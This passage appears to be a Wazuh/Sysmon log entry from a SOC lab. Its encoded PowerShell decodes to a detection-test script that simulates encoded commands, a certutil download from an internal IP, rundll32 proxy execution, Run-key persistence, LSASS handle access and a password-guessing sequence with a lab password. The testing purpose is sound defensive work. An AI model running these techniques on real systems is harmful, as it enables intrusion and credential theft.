zAGYAdQBsACAAbABvAGcAbwBuACAAKAA0ADYAMgA0ACkAIABmAG8AcgAgAHUAcwBlAHIAIAAnAHMAbwBjACcACgAkAGwAbwBnAG8AbgBDAG8AZABlACAAPQAgAEAAIgAKAHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtADsACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQAuAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFMAZQByAHYAaQBjAGUAcwA7AAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABBAGQAdgBhAHAAaQBUAGUAcwB0ACAAewAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAYQBkAHYAYQBwAGkAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQAsACAAQwBoAGEAcgBTAGUAdAAgAD0AIABDAGgAYQByAFMAZQB0AC4AVQBuAGkAYwBvAGQAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABMAG8AZwBvAG4AVQBzAGUAcgAoAHMAdAByAGkAbgBnACAAbABwAHMAegBVAHMAZQByAG4AYQBtAGUALAAgAHMAdAByAGkAbgBnACAAbABwAHMAegBEAG8AbQBhAGkAbgAsACAAcwB0AHIAaQBuAGcAIABsAHAAcwB6AFAAYQBzAHMAdwBvAHIAZAAsAAoAIAAgACAAIAAgACAAIAAgAGkAbgB0ACAAZAB3AEwAbwBnAG8AbgBUAHkAcABlACwAIABpAG4AdAAgAGQAdwBMAG8AZwBvAG4AUAByAG8AdgBpAGQAZQByACwAIABvAHUAdAAgAEkAbgB0AFAAdAByACAAcABoAFQAbwBrAGUAbgApADsACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIALAAgAFMAZQB0AEwAYQBzAHQARQByAHIAbwByACAAPQAgAHQAcgB1AGUAKQBdAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBsACAAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgASQBuAHQAUAB0AHIAIABoAE8AYgBqAGUAYwB0ACkAOwAKAH0ACgAiAEAACgBBAGQAZAAtAFQAeQBwAGUAIAAtAFQAeQBwAGUARABlAGYAaQBuAGkAdABpAG8AbgAgACQAbABvAGcAbwBuAEMAbwBkAGUACgBmAG8AcgAgACgAJABpACAAPQAgADEAOwAgACQAaQAgAC0AbABlACAANgA7ACAAJABpACsAKwApACAAewAKACAAIAAgACAAJAB0AG8AawAgAD0AIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8ACgAgACAAIAAgAFsAQQBkAHYAYQBwAGkAVABlAHMAdABdADoAOgBMAG8AZwBvAG4AVQBzAGUAcgAoACIAcwBvAGMAIgAsACAAIgBXAGkAbgAxADAAIgAsACAAIgBXAHIAbwBuAGcAUABhAHMAcwAxADIAMwAhACIALAAgADMALAAgADAALAAgAFsAcgBlAGYAXQAkAHQAbwBrACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADMACgAkAHQAbwBrAEcAbwBvAGQAIAA9ACAAWwBJAG4AdABQAHQAcgBdADoAOgBaAGUAcgBvAAoAJABvAGsAIAA9ACAAWwBBAGQAdgBhAHAAaQBUAGUAcwB0AF0AOgA6AEwAbwBnAG8AbgBVAHMAZQByACgAIgBzAG8AYwAiACwAIAAiAFcAaQBuADEAMAAiACwAIAAiAFMAbwBjAEwAYQBiACEAMgAwADIANgAiACwAIAAzACwAIAAwACwAIABbAHIAZQBmAF0AJAB0AG8AawBHAG8AbwBkACkACgBXAHIAaQB0AGUALQBPAHUAdABwAHUAdAAgACIATABvAGcAbwBuAFUAcwBlAHIAIABzAHUAYwBjAGUAcwBzAD0AJABvAGsAIgAKAGkAZgAgACgAJAB0AG8AawBHAG8AbwBkACAALQBuAGUAIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8AKQAgAHsAIABbAEEAZAB2AGEAcABpAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJAB0AG8AawBHAG8AbwBkACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAA==\\r\\nParentUser: WIN10\\\\soc\\\"\"},\"eventdata\":{\"utcTime\":\"2026-10-19 18:43:30.061\",\"processGuid\":\"{659b395a-64d2-6ad6-5a04-000000000300}\",\"processId\":\"1920\",\"image\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\",\"fileVersion\":\"10.0.26100.1 (WinBuild.160101.0800)\",\"description\":\"Windows PowerShell\",\"product\":\"Microsoft\u00ae Windows\u00ae Operating System\",\"company\":\"Microsoft Corporation\",\"originalFileName\":\"PowerShell.EXE\",\"commandLine\":\"\\\\\\\"C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\\\\\\\" -NoProfile -enc dwBoAG8AYQBtAGkA\",\"currentDirectory\":\"C:\\\\\\\\Users\\\\\\\\soc\\\\\\\\\",\"user\":\"WIN10\\\\\\\\soc\",\"logonGuid\":\"{659b395a-64cf-6ad6-935b-e60000000000}\",\"logonId\":\"0xe65b93\",\"terminalSessionId\":\"0\",\"integrityLevel\":\"High\",\"hashes\":\"MD5=909A2EEC5534F01DFF87B7D47E57BFF7,SHA256=D3B4B97C2BF97D70E5655FF4C4CA1D8CEF9DED51685CFD764247CFDA98EE68DF,IMPHASH=AFACF6DC9041114B198160AAB4D0AE77\",\"parentProcessGuid\":\"{659b395a-64d0-6ad6-5904-000000000300}\",\"parentProcessId\":\"2604\",\"parentImage\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\",\"parentCommandLine\":\"powershell  -NoProfile -EncodedCommand CgBOAGUAdwAtAEkAdABlAG0AIAAtAEkAdABlAG0AVAB5AHAAZQAgAEQAaQByAGUAYwB0AG8AcgB5ACAALQBQAGEAdABoACAAQwA6AFwAVABlAG0AcAAgAC0ARgBvAHIAYwBlACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKAAoAIwAgADEALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANQA6ACAAUABvAHcAZQByAFMAaABlAGwAbAAgAGUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkAAoAJABwADEAIAA9ACAAIgBwAG8AdwBlAHIAIgAgACsAIAAiAHMAaABlAGwAbAAuAGUAeABlACIACgAkAGEAMQAgAD0AIAAiAC0ATgBvAFAAcgBvAGYAaQBsAGUAIAAtACIAIAArACAAIgBlAG4AYwAgAGQAdwBCAG8AQQBHADgAQQBZAFEAQgB0AEEARwBrAEEAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAxACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAxACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAyAC4AIABSAHUAbABlACAAMQAwADAAMAAxADMAOgAgAGMAZQByAHQAdQB0AGkAbAAgAGQAbwB3AG4AbABvAGEAZAAKACQAcAAyACAAPQAgACIAYwBlAHIAdAAiACAAKwAgACIAdQB0AGkAbAAuAGUAeABlACIACgAkAGEAMgAgAD0AIAAiAC0AIgAgACsAIAAiAHUAcgBsAGMAYQBjAGgAZQAgAC0AZgAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvACAAQwA6AFwAVABlAG0AcAAHAC4AdAB4AHQAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAyACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAyACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAzAC4AIABSAHUAbABlACAAMQAwADAAMgAwADUAOgAgAHIAdQBuAGQAbABsADMAMgAgAHAAcgBvAHgAeQAgAGUAeABlAGMAdQB0AGkAbwBuAAoAJABwADMAIAA9ACAAIgByAHUAbgAiACAAKwAgACIAZABsAGwAMwAyAC4AZQB4AGUAIgAKACQAYQAzACAAPQAgACIAdQByAGwALgBkAGwAbAAsAEYAaQBsAGUAIgAgACsAIAAiAFAAcgBvAHQAbwBjAG8AbABIAGEAbgBkAGwAZQByACAAYwBhAGwAYwAuAGUAeABlACIACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAkAHAAMwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAkAGEAMwAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADEACgAKACMAIAA0AC4AIABSAHUAbABlACAAMQAwADAAMgAwADYAOgAgAFIAZQBnAGkAcwB0AHIAeQAgAFIAdQBuACAAawBlAHkAIABwAGUAcgBzAGkAcwB0AGUAbgBjAGUACgByAGUAZwAuAGUAeABlACAAYQBkAGQAIAAiAEgASwBDAFUAXABTAG8AZgB0AHcAYQByAGUAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABDAHUAcgByAGUAbgB0AFYAZQByAHMAaQBvAG4AXABSAHUAbgAiACAALwB2ACAAVAAgAC8AZAAgACIAYwBhAGwAYwAuAGUAeABlACIAIAAvAGYACgBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAAtAFMAZQBjAG8AbgBkAHMAIAAxAAoAcgBlAGcALgBlAHgAZQAgAGQAZQBsAGUAdABlACAAIgBIAEsAQwBVAFwAUwBvAGYAdAB3AGEAcgBlAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuAFwAUgB1AG4AIgAgAC8AdgAgAFQAIAAvAGYACgAKACMAIAA1AC4AIABSAHUAbABlACAAMQAwADAAMgAwADEAOgAgAEwAUwBBAFMAUwAgAG0AZQBtAG8AcgB5ACAAYQBjAGMAZQBzAHMAIAAoADAAeAAxADAAMQAwACAAUABSAE8AQwBFAFMAUwBfAFYATQBfAFIARQBBAEQAIAB8ACAAUABSAE8AQwBFAFMAUwBfAFEAVQBFAFIAWQBfAEwASQBNAEkAVABFAEQAXwBJAE4ARgBPAFIATQBBAFQASQBPAE4AKQAKACQAYwBvAGQAZQAgAD0AIABAACIACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQA7AAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwAKAHAAdQBiAGwAaQBjACAAYwBsAGEAcwBzACAATABzAGEAcwBzAFQAZQBzAHQAIAB7AAoAIAAgACAAIABbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACwAIABTAGUAdABMAGEAcwB0AEUAcgByAG8AcgAgAD0AIAB0AHIAdQBlACkAXQAKACAAIAAgACAAcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABPAHAAZQBuAFAAcgBvAGMAZQBzAHMAKAB1AGkAbgB0ACAAZAB3AEQAZQBzAGkAcgBlAGQAQQBjAGMAZQBzAHMALAAgAGIAbwBvAGwAIABiAEkAbgBoAGUAcgBpAHQASABhAG4AZABsAGUALAAgAGkAbgB0ACAAZAB3AFAAcgBvAGMAZQBzAHMASQBkACkAOwAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABDAGwAbwBzAGUASABhAG4AZABsAGUAKABJAG4AdABQAHQAcgAgAGgATwBiAGoAZQBjAHQAKQA7AAoAfQAKACIAQAAKAEEAZABkAC0AVAB5AHAAZQAgAC0AVAB5AHAAZQBEAGUAZgBpAG4AaQB0AGkAbwBuACAAJABjAG8AZABlAAoAJABsAHMAYQBzAHMAUABpAGQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIABsAHMAYQBzAHMAKQAuAEkAZAAKACQAaAAgAD0AIABbAEwAcwBhAHMAcwBUAGUAcwB0AF0AOgA6AE8AcABlAG4AUAByAG8AYwBlAHMAcwAoADAAeAAxADAAMQAwACwAIAAkAGYAYQBsAHMAZQAsACAAJABsAHMAYQBzAHMAUABpAGQAKQAKAFcAcgBpAHQAZQAtAE8AdQB0AHAAdQB0ACAAIgBPAHAAZQBuAGUAZAAgAGwAcwBhAHMAcwAgAFAASQBEACAAJABsAHMAYQBzAHMAUABpAGQAIABoAGEAbgBkAGwAZQA9ACQAaAAiAAoAaQBmACAAKAAkAGgAIAAtAG4AZQAgAFsASQBuAHQAUAB0AHIAXQA6ADoAWgBlAHIAbwApACAAewAgAFsATABzAGEAcwBzAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJABoACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAAoAIwAgADYALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANwAgACsAIAAxADAAMAAyADAAMAA6ACAANQAgAGYAYQBpAGwAZQBkACAAbABvAGcAbwBuAHMAIAAoADQANgAyADUAKQAgAGYAbwBsAGwAbwB3AGUAZAAgAGIAeQAgADEAIABzAHUAYwBjAGUAcwBzAGYAdQBsACAAbABvAGcAbwBuACAAKAA0ADYAMgA0ACkAIABmAG8AcgAgAHUAcwBlAHIAIAAnAHMAbwBjACcACgAkAGwAbwBnAG8AbgBDAG8AZABlACAAPQAgAEAAIgAKAHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtADsACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQAuAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFMAZQByAHYAaQBjAGUAcwA7AAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABBAGQAdgBhAHAAaQBUAGUAcwB0ACAAewAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAYQBkAHYAYQBwAGkAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQAsACAAQwBoAGEAcgBTAGUAdAAgAD0AIABDAGgAYQByAFMAZQB0AC4AVQBuAGkAYwBvAGQAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABMAG8AZwBvAG4AVQBzAGUAcgAoAHMAdAByAGkAbgBnACAAbABwAHMAegBVAHMAZQByAG4AYQBtAGUALAAgAHMAdAByAGkAbgBnACAAbABwAHMAegBEAG8AbQBhAGkAbgAsACAAcwB0AHIAaQBuAGcAIABsAHAAcwB6AFAAYQBzAHMAdwBvAHIAZAAsAAoAIAAgACAAIAAgACAAIAAgAGkAbgB0ACAAZAB3AEwAbwBnAG8AbgBUAHkAcABlACwAIABpAG4AdAAgAGQAdwBMAG8AZwBvAG4AUAByAG8AdgBpAGQAZQByACwAIABvAHUAdAAgAEkAbgB0AFAAdAByACAAcABoAFQAbwBrAGUAbgApADsACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIALAAgAFMAZQB0AEwAYQBzAHQARQByAHIAbwByACAAPQAgAHQAcgB1AGUAKQBdAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBsACAAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgASQBuAHQAUAB0AHIAIABoAE8AYgBqAGUAYwB0ACkAOwAKAH0ACgAiAEAACgBBAGQAZAAtAFQAeQBwAGUAIAAtAFQAeQBwAGUARABlAGYAaQBuAGkAdABpAG8AbgAgACQAbABvAGcAbwBuAEMAbwBkAGUACgBmAG8AcgAgACgAJABpACAAPQAgADEAOwAgACQAaQAgAC0AbABlACAANgA7ACAAJABpACsAKwApACAAewAKACAAIAAgACAAJAB0AG8AawAgAD0AIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8ACgAgACAAIAAgAFsAQQBkAHYAYQBwAGkAVABlAHMAdABdADoAOgBMAG8AZwBvAG4AVQBzAGUAcgAoACIAcwBvAGMAIgAsACAAIgBXAGkAbgAxADAAIgAsACAAIgBXAHIAbwBuAGcAUABhAHMAcwAxADIAMwAhACIALAAgADMALAAgADAALAAgAFsAcgBlAGYAXQAkAHQAbwBrACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADMACgAkAHQAbwBrAEcAbwBvAGQAIAA9ACAAWwBJAG4AdABQAHQAcgBdADoAOgBaAGUAcgBvAAoAJABvAGsAIAA9ACAAWwBBAGQAdgBhAHAAaQBUAGUAcwB0AF0AOgA6AEwAbwBnAG8AbgBVAHMAZQByACgAIgBzAG8AYwAiACwAIAAiAFcAaQBuADEAMAAiACwAIAAiAFMAbwBjAEwAYQBiACEAMgAwADIANgAiACwAIAAzACwAIAAwACwAIABbAHIAZQBmAF0AJAB0AG8AawBHAG8AbwBkACkACgBXAHIAaQB0AGUALQBPAHUAdABwAHUAdAAgACIATABvAGcAbwBuAFUAcwBlAHIAIABzAHUAYwBjAGUAcwBzAD0AJABvAGsAIgAKAGkAZgAgACgAJAB0AG8AawBHAG8AbwBkACAALQBuAGUAIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8AKQAgAHsAIABbAEEAZAB2AGEAcABpAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJAB0AG8AawBHAG8AbwBkACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAA==\",\"parentUser\":\"WIN10\\\\\\\\soc\"}}}",
  "decoder": {
    "name": "windows_eventchannel"
  },
  "data": {
    "win": {
      "system": {
        "providerName": "Microsoft-Windows-Sysmon",
        "providerGuid": "{5770385f-c22a-43e0-bf4c-06f5698ffbd9}",
        "eventID": "1",
        "version": "5",
        "level": "4",
        "task": "1",
        "opcode": "0",
        "keywords": "0x8000000000000000",
        "systemTime": "2026-10-19T18:43:30.0684966Z",
        "eventRecordID": "3279",
        "processID": "6932",
        "threadID": "2332",
        "channel": "Microsoft-Windows-Sysmon/Operational",
        "computer": "Win10",
        "severityValue": "INFORMATION",
        "message": "\"Process Create:\r\nRuleName: -\r\nUtcTime: 2026-10-19 18:43:30.061\r\nProcessGuid: {659b395a-64d2-6ad6-5a04-000000000300}\r\nProcessId: 1920\r\nImage: C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\r\nFileVersion: 10.0.26100.1 (WinBuild.160101.0800)\r\nDescription: Windows PowerShell\r\nProduct: Microsoft\u00ae Windows\u00ae Operating System\r\nCompany: Microsoft Corporation\r\nOriginalFileName: PowerShell.EXE\r\nCommandLine: \"C:\\WINDOWS\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" -NoProfile -enc dwBoAG8AYQBtAGkA \r\nCurrentDirectory: C:\\Users\\soc\\\r\nUser: WIN10\\soc\r\nLogonGuid: {659b395a-64cf-6ad6-935b-e60000000000}\r\nLogonId: 0xE65B93\r\nTerminalSessionId: 0\r\nIntegrityLevel: High\r\nHashes: MD5=909A2EEC5534F01DFF87B7D47E57BFF7,SHA256=D3B4B97C2BF97D70E5655FF4C4CA1D8CEF9DED51685CFD764247CFDA98EE68DF,IMPHASH=AFACF6DC9041114B198160AAB4D0AE77\r\nParentProcessGuid: {659b395a-64d0-6ad6-5904-000000000300}\r\nParentProcessId: 2604\r\nParentImage: C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\r\nParentCommandLine: powershell  -NoProfile -EncodedCommand CgBOAGUAdwAtAEkAdABlAG0AIAAtAEkAdABlAG0AVAB5AHAAZQAgAEQAaQByAGUAYwB0AG8AcgB5ACAALQBQAGEAdABoACAAQwA6AFwAVABlAG0AcAAgAC0ARgBvAHIAYwBlACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKAAoAIwAgADEALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANQA6ACAAUABvAHcAZQByAFMAaABlAGwAbAAgAGUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkAAoAJABwADEAIAA9ACAAIgBwAG8AdwBlAHIAIgAgACsAIAAiAHMAaABlAGwAbAAuAGUAeABlACIACgAkAGEAMQAgAD0AIAAiAC0ATgBvAFAAcgBvAGYAaQBsAGUAIAAtACIAIAArACAAIgBlAG4AYwAgAGQAdwBCAG8AQQBHADgAQQBZAFEAQgB0AEEARwBrAEEAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAxACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAxACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAyAC4AIABSAHUAbABlACAAMQAwADAAMAAxADMAOgAgAGMAZQByAHQAdQB0AGkAbAAgAGQAbwB3AG4AbABvAGEAZAAKACQAcAAyACAAPQAgACIAYwBlAHIAdAAiACAAKwAgACIAdQB0AGkAbAAuAGUAeABlACIACgAkAGEAMgAgAD0AIAAiAC0AIgAgACsAIAAiAHUAcgBsAGMAYQBjAGgAZQAgAC0AZgAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvACAAQwA6AFwAVABlAG0AcAAHAC4AdAB4AHQAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAyACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAyACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAzAC4AIABSAHUAbABlACAAMQAwADAAMgAwADUAOgAgAHIAdQBuAGQAbABsADMAMgAgAHAAcgBvAHgAeQAgAGUAeABlAGMAdQB0AGkAbwBuAAoAJABwADMAIAA9ACAAIgByAHUAbgAiACAAKwAgACIAZABsAGwAMwAyAC4AZQB4AGUAIgAKACQAYQAzACAAPQAgACIAdQByAGwALgBkAGwAbAAsAEYAaQBsAGUAIgAgACsAIAAiAFAAcgBvAHQAbwBjAG8AbABIAGEAbgBkAGwAZQByACAAYwBhAGwAYwAuAGUAeABlACIACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAkAHAAMwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAkAGEAMwAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADEACgAKACMAIAA0AC4AIABSAHUAbABlACAAMQAwADAAMgAwADYAOgAgAFIAZQBnAGkAcwB0AHIAeQAgAFIAdQBuACAAawBlAHkAIABwAGUAcgBzAGkAcwB0AGUAbgBjAGUACgByAGUAZwAuAGUAeABlACAAYQBkAGQAIAAiAEgASwBDAFUAXABTAG8AZgB0AHcAYQByAGUAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABDAHUAcgByAGUAbgB0AFYAZQByAHMAaQBvAG4AXABSAHUAbgAiACAALwB2ACAAVAAgAC8AZAAgACIAYwBhAGwAYwAuAGUAeABlACIAIAAvAGYACgBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAAtAFMAZQBjAG8AbgBkAHMAIAAxAAoAcgBlAGcALgBlAHgAZQAgAGQAZQBsAGUAdABlACAAIgBIAEsAQwBVAFwAUwBvAGYAdAB3AGEAcgBlAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuAFwAUgB1AG4AIgAgAC8AdgAgAFQAIAAvAGYACgAKACMAIAA1AC4AIABSAHUAbABlACAAMQAwADAAMgAwADEAOgAgAEwAUwBBAFMAUwAgAG0AZQBtAG8AcgB5ACAAYQBjAGMAZQBzAHMAIAAoADAAeAAxADAAMQAwACAAUABSAE8AQwBFAFMAUwBfAFYATQBfAFIARQBBAEQAIAB8ACAAUABSAE8AQwBFAFMAUwBfAFEAVQBFAFIAWQBfAEwASQBNAEkAVABFAEQAXwBJAE4ARgBPAFIATQBBAFQASQBPAE4AKQAKACQAYwBvAGQAZQAgAD0AIABAACIACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQA7AAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwAKAHAAdQBiAGwAaQBjACAAYwBsAGEAcwBzACAATABzAGEAcwBzAFQAZQBzAHQAIAB7AAoAIAAgACAAIABbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACwAIABTAGUAdABMAGEAcwB0AEUAcgByAG8AcgAgAD0AIAB0AHIAdQBlACkAXQAKACAAIAAgACAAcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABPAHAAZQBuAFAAcgBvAGMAZQBzAHMAKAB1AGkAbgB0ACAAZAB3AEQAZQBzAGkAcgBlAGQAQQBjAGMAZQBzAHMALAAgAGIAbwBvAGwAIABiAEkAbgBoAGUAcgBpAHQASABhAG4AZABsAGUALAAgAGkAbgB0ACAAZAB3AFAAcgBvAGMAZQBzAHMASQBkACkAOwAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABDAGwAbwBzAGUASABhAG4AZABsAGUAKABJAG4AdABQAHQAcgAgAGgATwBiAGoAZQBjAHQAKQA7AAoAfQAKACIAQAAKAEEAZABkAC0AVAB5AHAAZQAgAC0AVAB5AHAAZQBEAGUAZgBpAG4AaQB0AGkAbwBuACAAJABjAG8AZABlAAoAJABsAHMAYQBzAHMAUABpAGQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIABsAHMAYQBzAHMAKQAuAEkAZAAKACQAaAAgAD0AIABbAEwAcwBhAHMAcwBUAGUAcwB0AF0AOgA6AE8AcABlAG4AUAByAG8AYwBlAHMAcwAoADAAeAAxADAAMQAwACwAIAAkAGYAYQBsAHMAZQAsACAAJABsAHMAYQBzAHMAUABpAGQAKQAKAFcAcgBpAHQAZQAtAE8AdQB0AHAAdQB0ACAAIgBPAHAAZQBuAGUAZAAgAGwAcwBhAHMAcwAgAFAASQBEACAAJABsAHMAYQBzAHMAUABpAGQAIABoAGEAbgBkAGwAZQA9ACQAaAAiAAoAaQBmACAAKAAkAGgAIAAtAG4AZQAgAFsASQBuAHQAUAB0AHIAXQA6ADoAWgBlAHIAbwApACAAewAgAFsATABzAGEAcwBzAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJABoACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAAoAIwAgADYALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANwAgACsAIAAxADAAMAAyADAAMAA6ACAANQAgAGYAYQBpAGwAZQBkACAAbABvAGcAbwBuAHMAIAAoADQANgAyADUAKQAgAGYAbwBsAGwAbwB3AGUAZAAgAGIAeQAgADEAIABzAHUAYwBjAGUAcwBzAGYAdQBsACAAbABvAGcAbwBuACAAKAA0ADYAMgA0ACkAIABmAG8AcgAgAHUAcwBlAHIAIAAnAHMAbwBjACcACgAkAGwAbwBnAG8AbgBDAG8AZABlACAAPQAgAEAAIgAKAHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtADsACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQAuAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFMAZQByAHYAaQBjAGUAcwA7AAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABBAGQAdgBhAHAAaQBUAGUAcwB0ACAAewAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAYQBk